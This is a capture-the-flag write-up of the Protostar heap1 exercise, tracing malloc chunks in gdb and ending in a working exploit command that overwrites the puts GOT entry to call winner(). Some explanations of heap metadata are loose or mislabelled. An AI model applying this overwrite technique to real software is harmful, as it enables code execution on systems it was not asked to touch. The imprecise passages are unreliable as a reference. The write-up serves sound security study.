


## Foreword
This article is gonna be long read because we are inspecting the heap one by one for several breakpoints, and trying a different input.

## Running the program

First of all, assuming if we don't have the source code, when we run the program:
```bash
$ ./heap1 
Segmentation fault
```
it gaves us a segfaults. How it's giving us a segfaults? If we take a look at the gdb:
```bash
(gdb) r
Starting program: /opt/protostar/bin/heap1 

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x804a018 "", src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
```
we are eseentially trying to copy a `NULL` (`src=0x0`) into a some char pointer destination `dest=0x804a018`. And we know  one of the reasons that causes segfaults are we are trying to dereference a `NULL` pointer. 

For comparasion here is the source code:
```c
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

As you can see we were expected to provide some command-line arguments, and if we didn't provide anything it's just a `strcpy` attempting to copy a `NULL` value into char pointer, of course we will give 2 arguments:
```bash
$ ./heap1 AAAA BBBB
and that's a wrap folks!
```

The bug of the code didn't stop at there. We are witnessing a `strcpy` bug because it didn't check when the user give some input. In this particular case, we are witnessing a heap buffer overflow because the memory is allocated with `malloc` which is just allocating some memory in the heap data structure, and we are copying arbitrary length of string from argv (using `strcpy`) to one of its struct property, `char *name`. Here is the attempt to overflow it:
```bash
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGG 000011112222333344445555
The program being debugged has been started already.
Start it from the beginning? (y or n) Y

Starting program: /opt/protostar/bin/heap1 AAAABBBBCCCCDDDDEEEEFFFFGGGG 000011112222333344445555

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, 
    src=0xbffff974 "000011112222333344445555") at strcpy.c:40
40	strcpy.c: No such file or directory.
	in strcpy.c
```

And here is the slight-normal-buffer, not gonna segfaults, but still overflow the buffer, because we are suppose to provide only 8 bytes for each `i1->name` and `i2->name`:
```bash
(gdb) r AAAABBBBCCCCDDDDEEEE 000011112222333344445555
```


## Setting up breakpoints

Next, we will put breakpoints for every after `malloc()` and `strcpy()` call:
```bash
b *main+42
b *main+63
b *main+89
b *main+127
b *main+156
b *main+168
```
For example, when we hit the first breakpoint we are expected to finish the first `malloc()` call which is:
```bash
0x080484c2 <main+9>:	mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:	call   0x80483bc <malloc@plt>
0x080484ce <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:	mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:	mov    DWORD PTR [eax],0x1
```
Here is the comparasion in C:
```c
i1 = malloc(sizeof(struct internet));
```

Also some extra gdb commands that's gonna help us in debugging process
```bash
set pagination off
define hook-stop
x/40wx 0x804a000
info r
x/2i $eip
end
```

## First bp, 0x080484e3 <main+42>
When we arrived at the first breakpoint, we are expected to see that `i1->priority` is set to `1`. 

```c
i1->priority = 1;
```

To check where it got assigned we can dump the heap memory, and to know the starting and end address of the heaps we can use `info proc map` in gdb, you will see something like this:
```bash
(gdb) info proc map
process 1680
cmdline = '/opt/protostar/bin/heap1'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap1'
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
...
0x804a000  0x806b000    0x21000          0           [heap]
...
```

So if we examine the heap:

On that address `0x804a008` is where `i1->priority=1` stored. 


Furthermore we can use something like this to keep track with strucutre `i1`(later for struct `i2`):
```bash
(gdb) set $i1=(struct internet*)0x804a008
(gdb) print *$i1
$1 = {priority = 1, name = 0x0}

(gdb) set $i2=(struct internet*)0x804a028
(gdb) print *$i2
$2 = {priority = 0, name = 0x0}
```

But what is up with `0x00000011` both on address `0x804a004` and `0x804a010`; also what is that `0x00020fe1` on address `0x804a024`?

## Heap Metadata

The `malloc()` function has it's own algorithm to indicate how many size of memory that is being allocated such as in this case the first call of malloc we are allocating 8 bytes of memory/space.

When calling the `malloc()` we are telling to the kernel to allocate some dynamic memory for us, and for each allocated chunk/memory on the heap it has some metadata associated with it. This metadata usually includes:

1. Previous Size: The size of the previous chunk (used in some cases).
2. Current Size: The size of the current chunk, including the metadata itself. The least significant bit of this size field is often used to indicate whether the chunk is currently allocated (in use) or free.

**Breakdown of Size Field (0x11); let's take 0x11 as an example:**
1. 0x11 in hexadecimal is 17 in decimal.
2. The least significant bit (LSB) is 1, which indicates that this chunk is currently in use.
3. The rest of the bits (0x10, which is 16 in decimal) indicate the actual size of the chunk.

**Why 0x11 and What Does It Include?**
1. Metadata Size: In many implementations, the chunk size includes some metadata, typically 8 bytes (in a 32-bit system).
2. User Data Size: In your program, you allocated 8 bytes for i1->name.

**When combined:**
1. Metadata: 8 bytes
2. User Data: 8 bytes
So, the total size of the chunk becomes 16 bytes.

**The in-use bit (LSB) adds 1 to the total size, making the stored size:**
- 0x10 (16 bytes) + 1 (in-use bit) = 0x11

**This explains why we're seeing 0x11 in the memory dump. The size field 0x11 indicates:**
1. The total size of the chunk is 16 bytes.
2. The chunk is currently allocated (in-use).

*So here is the final analysis:**
1. **`0x804a000: 0x00000000 0x00000011`**
   - **0x00000000**: This is the previous size field. Since this is the first chunk, there's no previous chunk, so it's `0`.
   - **0x00000011**: This is the size of the current chunk. The value `0x11` in hexadecimal indicates a size of `0x10` (16 bytes) with the least significant bit (`0x1`) set, indicating that this chunk is in use.

2. **`0x804a008: 0x00000001 0x00000000`**
   - **0x00000001**: This might be part of the data stored in the `internet` structure, specifically the `priority` field (`i1->priority`).
   - **0x00000000**: This could be either padding or the start of the `name` field (`i1->name`), which is pointing to another heap-allocated memory chunk.

3. **`0x804a010: 0x00000000 0x00020ff1`**
   - **0x00000000**: This field might indicate a zeroed-out or unused memory area, or the beginning of the next chunk’s previous size field.
   - **`0x00020ff1`**: This indicates the size of the next chunk. The value `0x00020ff0` (after removing the `0x1` used bit indicator) suggests a chunk size of `0x00020ff0` bytes, with the least significant bit set to `1`, meaning this chunk is also in use.

## Second bp, 0x080484f8 <main+63>
When we arrived at the second breakpoint, we are expected to see that we are allocating 8 bytes to variable `i1->name`.




```bash
(gdb) print *$i1
$2 = {priority = 1, name = 0x804a018 ""}
(gdb) x 0x804a018
0x804a018:	0x00000000
```


1. **`0x804a000: 0x00000000 0x00000011 0x00000001 0x0804a018`**
   - **`0x00000000`**: Previous size (no previous chunk).
   - **`0x00000011`**: The size of the first chunk is `0x10` bytes, and the least significant bit is set (`0x1`), indicating that the chunk is in use.
   - **`0x00000001`**: Corresponds to the `priority` field of the `internet` structure, specifically `i1`.
   - **`0x0804a018`**: This is the address stored in the `name` pointer (`i1->name`), pointing to the beginning of the allocated space for the name string in the first chunk, and that address is `0x804a018`.

2. **`0x804a010: 0x00000000 0x00000011 0x00000000 0x00000000`**
   - **`0x00000000`**: Previous size for the next chunk.
   - **`0x00000011`**: Indicates the size of this chunk (`0x10` bytes) with the least significant bit (`0x1`) set, meaning this chunk is also in use.
   - **`0x00000000`**: This field is for the starting buffer for our beloved variable `i1->name`, which we knew at `0x804a00c` it points to here `0x0804a018=0x00000000`.

3. **`0x804a020: 0x00000000 0x00020fe1 0x00000000 0x00000000`**
   - **`0x00000000`**: Likely the start of the next chunk’s metadata, specifically the previous size.
   - **`0x00020fe1`**: Indicates the size of the next chunk with the least significant bit set, showing that the chunk is in use. The size here is `0x00020fe0` bytes.


## Third bp, 0x08048512 <main+89>
When we arrived at the third breakpoint, we are expected to see that we are modifying `i2->priority = 2`.

```bash
(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x00000000
0x804a030:	0x00000000	0x00020fd1	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000

Breakpoint 3, 0x08048512 in main (argc=3, argv=0xbffff814) at heap1/heap1.c:29
29	in heap1/heap1.c
```

```bash
set $i2=(struct internet*)0x804a028
(gdb) print *$i2
$5 = {priority = 2, name = 0x0}
```

### Heap Layout Analysis After Third Breakpoint
1. **`0x804a020: 0x00000000 0x00000011 0x00000002 0x00000000`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00000011` (16 bytes, in-use).
   - **Data**: This corresponds to the second `internet` structure (`i2`):
     - `0x00000002`: `priority` of `i2`.
     - `0x00000000`: Pointer for the `name` of `i2` (not yet assigned).

2. **`0x804a030: 0x00000000 0x00020fd1 0x00000000 0x00000000`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00020fd1` (large chunk, in-use).
   - This likely corresponds to a larger allocation or buffer that follows `i2`.

## Fourth bp, 0x08048538 <main+127>
When we arrived at the fourth breakpoint, we are expected to see that we are allocating 8 bytes to variable `i2->name`.

```bash
(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000

Breakpoint 4, 0x08048538 in main (argc=3, argv=0xbffff814) at heap1/heap1.c:31
31	in heap1/heap1.c
(gdb) print *$i2
$6 = {priority = 2, name = 0x804a038 ""}
```

### Heap Layout After Fourth Breakpoint
1. **`0x804a020: 0x00000000 0x00000011 0x00000002 0x0804a038`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00000011` (16 bytes, in-use).
   - **Data**: Second `internet` structure (`i2`):
     - `0x00000002`: `priority` of `i2`, `i2->priority`.
     - `0x0804a038`: Pointer to the `name` of `i2`, `i2->priority`.

2. **`0x804a030: 0x00000000 0x00000011 0x00000000 0x00000000`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00000011` (16 bytes, in-use).
   - **Data**: Another potentially unused or padding chunk:
     - `0x00000000`: No significant data.
     - `0x00000000`: No pointer assigned.

3. **`0x804a040: 0x00000000 0x00020fc1 0x00000000 0x00000000`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00020fc1` (large chunk, in-use).
   - This is a larger chunk allocated after the `i2` structure.


## Fifth bp, 0x08048555 <main+156>
Now the fun part, when we arrived at the fifth breakpoint, we are expected to see that we are copying our first command line argument into `i1->name`, `strcpy(i1->name, argv[1]);`. We will consider 3 scenario:
1. Buffer with exactly 8 bytes
2. Buffer with more than 8 bytes but non segfaults
3. Buffer with more than 8 bytes with segfaults


### First Scenario
```bash
(gdb) C
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000

Breakpoint 5, 0x08048555 in main (argc=3, argv=0xbffff844) at heap1/heap1.c:32
32	in heap1/heap1.c
(gdb) PRINT *$i1
$3 = {priority = 1, name = 0x804a018 "AAAABBBB"}
(gdb) PRINT *$i2
$4 = {priority = 2, name = 0x804a038 ""}
```
Let's analyze what happened after the fifth breakpoint, particularly focusing on the effects of the `strcpy` operation.

#### Heap Layout After Fifth Breakpoint

1. **`0x804a010: 0x00000000 0x00000011 0x41414141 0x42424242`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00000011` (16 bytes, in-use).
   - **Data**: The `name` field for `i1`, holding the value `"AAAABBBB"` (hexadecimal `0x41414141 0x42424242`).

2. **`0x804a020: 0x00000000 0x00000011 0x00000002 0x0804a038`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00000011` (16 bytes, in-use).
   - **Data**: Second `internet` structure (`i2`):
     - `0x00000002`: `priority` of `i2`.
     - `0x0804a038`: Pointer to the `name` of `i2`.

#### Inspection of Structures `i1` and `i2`

- **`i1` (`0x804a018`):**
  - `priority`: `1`.
  - `name`: `"AAAABBBB"`.

- **`i2` (`0x804a038`):**
  - `priority`: `2`.
  - `name`: `""` (empty string).

#### Analysis

1. **Effect of `strcpy(i1->name, argv[1]);`:**
   - The content of `argv[1]` (which is `"AAAABBBB"`) has been copied to `i1->name`.
   - The memory at `0x804a018` now holds the string `"AAAABBBB"`, as evidenced by the data at `0x804a010` being `0x41414141 0x42424242`.

2. **No Overflow Detected:**
   - Since `argv[1]` was exactly 8 bytes long and `i1->name` has enough space (assuming it's large enough), there's no buffer overflow occurring here.
   - The memory layout looks as expected, with the `i1` structure updated correctly and `i2` still untouched.

3. **Next Steps:**
   - The next operation will likely involve copying `argv[2]` to `i2->name`, which we should watch for potential overflows or memory corruption if the string length is mismatched.

The current scenario is safe with no buffer overflows or unexpected behavior, but careful attention will be needed if larger inputs are tested, especially regarding the space available for the `name` fields.

### **Scenario 2: Buffer Overflow Without Segfaults**

```bash
(gdb) r AAAABBBBCCCCDDDDEEEE 000011112222333344445555
(gdb) c
Continuing.
0x804a000:  0x00000000  0x00000011  0x00000001  0x0804a018
0x804a010:  0x00000000  0x00000011  0x41414141  0x42424242
0x804a020:  0x43434343  0x44444444  0x45454545  0x0804a000
0x804a030:  0x00000000  0x00000011  0x00000000  0x00000000
0x804a040:  0x00000000  0x00020fc1  0x00000000  0x00000000
0x804a050:  0x00000000  0x00000000  0x00000000  0x00000000

Breakpoint 5, 0x08048555 in main (argc=3, argv=0xbffff824) at heap1/heap1.c:32
32 in heap1/heap1.c
(gdb) c
Continuing.
and that's a wrap folks!

Program exited with code 031.
0x804a000:  Error while running hook_stop:
Cannot access memory at address 0x804a000
```

#### **Details**
- **Input**: `"AAAABBBBCCCCDDDDEEEE" "000011112222333344445555"`
- **Memory Layout Before Overflow**:
  - `0x804a018` → `"AAAABBBB"`
  - `0x804a038` → `"00001111"`
- **Memory Layout After Overflow**:
  - `0x804a018` → `"AAAABBBB"`
  - `0x804a020` → `"CCCCDDDDEEEE"`
  - The pointer in `i2->name` has been overwritten to point to `0x0804a000`, which is an address within the same memory segment, specifically pointing to the beginning of the `i1` structure.

#### **Key Observations**
- **No Segmentation Fault**: The program does not crash, indicating that the buffer overflow did not cause an illegal memory access or corrupt critical control structures.
- **Pointer Overwrite**: The overflow affected the pointer to `i2->name`. Now it points to `0x804a000`, potentially causing issues later when attempting to access this memory.

#### **Analysis**
- This scenario demonstrates a classic case of buffer overflow where the overflow data spills into adjacent memory without immediately causing a segmentation fault. The overflow overwrites the pointer `i2->name` to point to a potentially invalid memory location (`0x804a000`). This could lead to unpredictable behavior, such as reading or writing unexpected data, but since the overflow does not extend beyond the allocated heap space, it does not trigger a crash.

### **Scenario 3: Buffer Overflow With Segfaults**
```bash
(gdb) r AAAABBBBCCCCDDDDEEEEFFFF 000011112222333344445555
(gdb) c
Continuing.
0x804a000:  0x00000000  0x00000011  0x00000001  0x0804a018
0x804a010:  0x00000000  0x00000011  0x41414141  0x42424242
0x804a020:  0x43434343  0x44444444  0x45454545  0x46464646
0x804a030:  0x00000000  0x00000011  0x00000000  0x00000000
0x804a040:  0x00000000  0x00020fc1  0x00000000  0x00000000
0x804a050:  0x00000000  0x00000000  0x00000000  0x00000000

Breakpoint 5, 0x08048555 in main (argc=3, argv=0xbffff824) at heap1/heap1.c:32
32 in heap1/heap1.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x804a000:  0x00000000  0x00000011  0x00000001  0x0804a018
0x804a010:  0x00000000  0x00000011  0x41414141  0x42424242
0x804a020:  0x43434343  0x44444444  0x45454545  0x46464646
0x804a030:  0x00000000  0x00000011  0x00000000  0x00000000
0x804a040:  0x00000000  0x00020fc1  0x00000000  0x00000000
0x804a050:  0x00000000  0x00000000  0x00000000  0x00000000

*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, 
    src=0xbffff974 "000011112222333344445555") at strcpy.c:40
40 strcpy.c: No such file or directory.
   in strcpy.c
```

#### **Details**
- **Input**: `"AAAABBBBCCCCDDDDEEEEFFFF"`
- **Memory Layout Before Overflow**:
  - `0x804a018` → `"AAAABBBB"`
  - `0x804a038` → `"00001111"`
- **Memory Layout After Overflow**:
  - `0x804a018` → `"AAAABBBB"`
  - `0x804a020` → `"CCCCDDDDEEEEFFFF"`
  - The overflow extended to the point where `i2->name` is overwritten, and the next 4 bytes (`0x46464646` corresponding to `FFFF`) are interpreted as an address.

#### **Key Observations**
- **Segmentation Fault**: The program crashes with a segmentation fault when `strcpy` tries to write to the address `0x46464646`, which is clearly out of bounds.
- **Critical Overwrite**: The overflow not only affected the pointer but also extended into a region of memory that, when interpreted as an address, points to an invalid location, leading to a crash.

#### **Analysis**
- This scenario demonstrates a more severe buffer overflow, where the overflowed data not only corrupts the pointer but also creates a situation where the program attempts to access an invalid memory address (`0x46464646`). This results in a segmentation fault, indicating a critical failure that halts the program.

### **Overall Conclusion**
- **Buffer Overflows**: Both scenarios illustrate different outcomes of buffer overflows. In scenario 2, the program continues to execute despite the overflow, although with potentially corrupted data. In scenario 3, the overflow directly leads to a crash because the program attempts to access an invalid memory address.
- **Memory Safety**: The analysis highlights the importance of memory safety, as unchecked buffer operations can easily lead to unpredictable behavior, ranging from data corruption to program crashes, depending on the extent of the overflow.

In a real-world scenario, such vulnerabilities could be exploited for malicious purposes, such as executing arbitrary code or altering program behavior. Proper bounds checking and memory management practices are critical to prevent such vulnerabilities.

## Sixth bp, 0x08048561 <main+168>

### Scenario 1

```bash
(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x30303030	0x31313131
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000

Breakpoint 6, 0x08048561 in main (argc=3, argv=0xbffff844) at heap1/heap1.c:34
34	in heap1/heap1.c
(gdb) PRINT *$i1
$5 = {priority = 1, name = 0x804a018 "AAAABBBB"}
(gdb) PRINT *$i2
$6 = {priority = 2, name = 0x804a038 "00001111"}
```


### Heap Layout After Sixth Breakpoint
**`0x804a030: 0x00000000 0x00000011 0x30303030 0x31313131`**
   - **Previous size**: `0x00000000`.
   - **Size**: `0x00000011` (16 bytes, in-use).
   - **Data**: The `name` field for `i2`, holding the value `"00001111"` (hexadecimal `0x30303030 0x31313131`).

### Inspection of Structures `i1` and `i2`

- **`i1` (`0x804a018`):**
  - `priority`: `1`.
  - `name`: `"AAAABBBB"`.

- **`i2` (`0x804a038`):**
  - `priority`: `2`.
  - `name`: `"00001111"`.

### Analysis
1. **Effect of `strcpy(i2->name, argv[2]);`:**
   - The content of `argv[2]` (which is `"00001111"`) has been copied to `i2->name`.
   - The memory at `0x804a038` now holds the string `"00001111"`, as evidenced by the data at `0x804a030` being `0x30303030 0x31313131`.

2. **Correct Behavior:**
   - Both `i1` and `i2` structures have their `name` fields properly updated without any buffer overflow.
   - The heap is in a consistent state, and both `strcpy` operations executed successfully within their allocated spaces.

3. **Conclusion:**
   - The program handled the inputs correctly in this scenario, with no overflows or corruption.
   - This confirms that the heap allocations were sufficient for the provided inputs, and the program is functioning as intended in this specific case. 

This scenario serves as a good baseline for testing, and similar checks should be performed with larger or intentionally crafted inputs to explore potential vulnerabilities.


## Exploitation
This `\x74\x97\x04\0x08` is the address of GOT of `0x80483cc puts@plt`:
```bash
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
End of assembler dump.
```

We can try to overwrite the `i2->name` with that address (TODO: explain why)

```bash
(gdb) r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" 000011112222333344445555

(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x08049774
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x8048561 <main+168>:	call   0x80483cc <puts@plt>
0x8048566 <main+173>:	leave  

Breakpoint 6, 0x08048561 in main (argc=3, argv=0xbffff824) at heap1/heap1.c:34
34	in heap1/heap1.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x08049774
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x30303030:	Error while running hook_stop:
Cannot access memory at address 0x30303030
0x30303030 in ?? ()
```


```bash
(gdb) x winner
0x8048494 <winner>:	0x83e58955

(gdb) r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```


```bash
$ ./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1724938770
```


## Resources
https://www.geeksforgeeks.org/dynamic-memory-allocation-in-c-using-malloc-calloc-free-and-realloc/

https://www.geeksforgeeks.org/segmentation-fault-c-cpp/#7-dereferencing-an-uninitialized-or-null-pointer

